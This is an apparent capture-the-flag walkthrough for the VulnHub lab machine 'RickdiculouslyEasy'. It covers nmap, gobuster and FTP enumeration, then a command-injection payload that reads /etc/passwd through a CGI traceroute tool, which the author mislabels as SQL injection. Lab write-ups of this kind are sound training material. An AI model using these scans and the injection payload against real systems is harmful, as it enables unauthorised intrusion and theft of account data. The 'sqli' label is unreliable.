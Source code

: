 # RickdiculouslyEasy: 1

#### Download the machine from vulnhub or go for the [link](https://drive.google.com/open?id=0BzB6wBgc606JNmNNdU9waGNGTmM)
![rick wall](https://user-images.githubusercontent.com/112984045/202390970-89a77c0e-1a02-437a-a4e1-1fc2ace6dbac.png)
<br>

* #### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* #### Do follow this page through out the line to void confusion.

### `setup the machine to vmware or virtualbox and run the machine.`
### `It is recommended to keep both attack and 'RickdiculouslyEasy' machines on either briged or NAT network`
### ` After a successful setup go for the commands :`<br>
* #### Remember that the total points to be attained = 130 <br>


## ENUMERATION :

```bash
netdiscover -i < interface >
```
`Example command : netdiscover -i eth0`<br>
![rick netdiscover](https://user-images.githubusercontent.com/112984045/202392016-4d8bd306-0c80-4ad0-bdc2-585eb725ad86.png)
<br>

* For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command :
 
```bash
nmap -sC -sV -T4 < IP >
```
![rick nmap](https://user-images.githubusercontent.com/112984045/202393571-4f039d87-bbd9-470b-8f55-9bddb3a3453a.png)<br>
  ~ we can add -v argument for more verbose output.<br>
 
* I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shybu9/port-Scanner)
![rick portscanner](https://user-images.githubusercontent.com/112984045/202403637-cc4fc199-850f-4bd8-a790-80e305916fbc.png)<br>
* Thanks to my tool, It had found a flag at scanning itself before the nmap scan was done<br>

~ I prefer this tool because of its speed as you can see it just took 37 seconds for scanning 65535 ports.<br>Even still some improvements are to be done
 <br>
 
 ## ` points : 10`
 <br>
 
 * Try one more nmap scan with command :
 ```bash
 nmap -sV -sC  -T4 -vv -Pn -p- <br>
 ```
 
  ### ANALYSING ALL THE SCANS :
 * number of OPEN PORTS : 7
 * PORT NUMBERS : 21,22,80,9090,13337,22222,60000
 * OPERATING SYSTEM : UNIX, Linux
 * service running on PORT 21    : ftp
 * service running on PORT 22    : ssh
 * service running on PORT 80    :  Apache/2.4.27 (Fedora)
 * service running on PORT 9090  : Apache/2.4.27 (Fedora)
 * service running on PORT 13337 : unknown
 * service running on PORT 22222 : SSH-2.0-OpenSSH_7.5
 * service running on PORT 60000 : unknown
<br>
  
 * As the port 21 is open lets go for it :
 ```bash
 ftp <IP>
 ```
 ![rick ftp](https://user-images.githubusercontent.com/112984045/202398047-50f86fe1-e337-4b4d-97bd-a9ae834ad33b.png)<br>
 * Terminate the ftp server and look for FLAG.txt
 ```bash
 cat FLAG.txt
 ```
 ![rick 1 ftpflag](https://user-images.githubusercontent.com/112984045/202398637-5237a77d-5bf5-43e0-9071-b7ac2e1ed1b8.png)
<br>

## ` POINTS : 20`
<br>

* As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 <br>
 
 * Nothing to do with the home page<br>
```bash
gobuster dir -u 192.168.0.102/  --no-error -w /usr/share/wordlists/dirb/big.txt -t 50
```
![rick gobu big 80](https://user-images.githubusercontent.com/112984045/202400675-bfa7167f-cd24-4e3f-8208-80a296c1708d.png)
```bash
gobuster dir -u 192.168.0.102/  --no-error -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
``` 
![rick gobu med 80](https://user-images.githubusercontent.com/112984045/202400725-7a42cd58-9e28-4a25-8afa-d22b8798e880.png)<br>
<br>

```bash
http://< IP >/passwords/FLAG.txt
```
![rick 2 80 flag](https://user-images.githubusercontent.com/112984045/202401188-cb95b535-2ddb-4556-8ef0-823dc447d592.png)<br>

## `POINTS : 30`
<br>

* As the port 9090 is also open http, lets have a look at that to
```bash
https://< IP >:9090/
```
![rick 3 9090 flag](https://user-images.githubusercontent.com/112984045/202404793-8bc9c025-88b7-4b12-bfb4-c89380517807.png)<br>

## `POINTS : 40`
<br>

* Back to port 80 web
```bash
http://< IP >/robots.txt
```
![rick robots](https://user-images.githubusercontent.com/112984045/202860080-3ee53497-1941-42f5-becd-c10e76c98327.png)<br>

```bash
http://< IP >/cgi-bin/tracertool.cgi
```
![rick tracrroute](https://user-images.githubusercontent.com/112984045/202860217-1a4eb34c-297b-4ce8-9225-a510dcafb84c.png)<br>

` this web-page is vuln to sqli so try command :`
```bash
; tail /etc/passwd
```
or
```bash
http://< IP >/cgi-bin/tracertool.cgi?ip=%3B+tail+%2Fetc%2Fpasswd
```
<br>

* Now we have 3 usernames












